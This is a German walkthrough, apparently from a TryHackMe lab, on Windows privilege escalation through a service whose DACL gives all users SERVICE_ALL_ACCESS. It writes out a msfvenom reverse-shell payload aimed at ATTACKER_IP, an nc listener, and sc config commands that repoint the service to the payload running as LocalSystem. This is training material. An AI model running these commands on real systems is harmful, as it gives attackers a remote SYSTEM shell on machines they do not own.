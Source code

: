 Um von der Befehlszeile aus nach einer Dienst-DACL zu suchen, können Sie Accesschk aus der Sysinternals-Suite verwenden. Eine Kopie davon finden Sie unter C:\\tools. Der Befehl zur Überprüfung der DACL für den Dienst thmservice lautet:
```
accesschk64.exe -qlc thmservice
```
Hier können wir sehen, dass die Gruppe BUILTIN\\Users die Berechtigung SERVICE_ALL_ACCESS hat, was bedeutet, dass jeder Benutzer den Dienst neu konfigurieren kann.
https://imgur.com/KBCAl9k
  

Bevor wir den Dienst ändern, erstellen wir eine weitere exe-service reverse shell und starten einen Listener dafür auf dem Rechner des Angreifers:
```
Payload Anlegen
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe


Listener Starten
nc -lvp 4447
```

Wie Gewohnt übertragen wir diese via wget in dem besipeil machen wir das in dem `C:\Users\thm-unpriv` Verzeichniss mit:
```
 wget http://10.10.46.52:8000/rev-svc3.exe -O rev-svc3.exe
```

Da Der file Name und ort nicht mehr angepasst werden müssen können wir direkt die Rechte anpassen 
```
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```
  
Um die dem Dienst zugeordnete ausführbare Datei und das Konto zu ändern, können wir den folgenden Befehl verwenden (beachten Sie die Leerzeichen nach den Gleichheitszeichen, wenn Sie sc.exe verwenden):
```
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```

Und im anschluss wird der Dienst nochmal gestoppt und wieder neu gestartet
```
sc stop THMService 
sc start THMService
```


# Ausnutzen von Gefährlichen Privilegien
### Windows Privileges

Privilegien sind Rechte, mit denen ein Konto bestimmte systembezogene Aufgaben ausführen kann. Diese Aufgaben können so einfach sein wie das Recht, den Rechner herunterzufahren, bis hin zu Rechten zur Umgehung einiger DACL-basierter Zugriffskontrollen.
Jeder Benutzer hat eine Reihe von zugewiesenen Privilegien, die mit dem folgenden Befehl überprüft werden können:
```
whoami /priv
```
